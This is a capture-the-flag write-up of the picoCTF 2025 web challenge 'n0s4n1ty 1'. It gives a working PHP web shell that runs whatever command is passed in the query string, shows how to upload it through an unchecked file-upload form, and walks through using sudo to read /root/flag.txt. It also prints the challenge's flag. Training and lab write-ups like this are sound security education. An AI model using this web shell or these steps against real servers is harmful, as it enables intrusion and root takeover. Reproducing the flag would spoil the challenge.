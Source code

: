 # n0s4n1ty 1 - Web Exploitation (picoCTF 2025)

## Challenge Overview
- **Category**: Web Exploitation
- **Points**: 100
- **Author**: Prince Niyonshuti N.
- **Challenge URL**: [picoCTF n0s4n1ty 1](http://standard-pizzas.picoctf.net:57009/)

In this challenge, the task is to exploit a web vulnerability in a file upload functionality. By uploading a malicious PHP file, we gain the ability to run arbitrary commands on the server, ultimately allowing us to retrieve the flag stored in the `/root` directory.

## Steps to Solve

### 1. **Identify the Vulnerability**
   The challenge presents a file upload feature where a user can upload a profile picture. However, there is a flaw in the implementation: the uploaded files are not sanitized, which means we can upload arbitrary files, including PHP scripts.

### 2. **Upload a Malicious PHP Web Shell**
   The first step is to upload a PHP shell to the server. We can use the following PHP code for a simple web shell, [PHP File to upload](shell.php)
:

   ```php
   <?php
   if(isset($_GET['cmd'])){
       echo "<pre>";
       $cmd = $_GET['cmd'];  // Get command from the query string
       system($cmd);         // Execute the command and display output
       echo "</pre>";
   }
   ?>
   ```

   This shell allows us to execute commands on the server by appending `cmd=<command>` to the URL.

### 3. **Find the URL of the Uploaded Shell**
   After successfully uploading the PHP shell, the file is placed in the `uploads` directory on the server. The URL to access the shell will typically look like:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php
   ```

### 4. **Execute Commands via the Shell**
   Now that we have a web shell, we can start executing commands on the server. Begin by checking the current user:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php?cmd=whoami
   ```

   The response should show that the current user is `www-data`.

### 5. **Check for Sudo Permissions**
   Next, we check if the `www-data` user has permission to execute commands as `root`. This can be done by running:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php?cmd=sudo -l
   ```

   The response should show that `www-data` has `NOPASSWD` permissions, meaning it can run any command as `root` without a password:

   ```
   User www-data may run the following commands on challenge:
       (ALL) NOPASSWD: ALL
   ```

### 6. **Retrieve the Flag**
   Since we now have the ability to run commands as `root`, we can retrieve the flag stored in the `/root/flag.txt` file by running the following command:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php?cmd=sudo cat /root/flag.txt
   ```

   The output will display the flag:

   ```
   picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
   ```

### 7. **Flag**
   The flag for this challenge is:

   ```
   picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
   ```

## Summary of Exploit
- **Exploited Vulnerability**: File upload functionality without proper sanitization.
- **Exploited Method**: Uploaded a PHP web shell that allowed command execution.
- **Privilege Escalation**: Used `sudo -l` to verify that `www-data` had `NOPASSWD` privileges, allowing us to run commands as `root`.
- **Final Goal**: Retrieved the flag by running `sudo cat /root/flag.txt`.
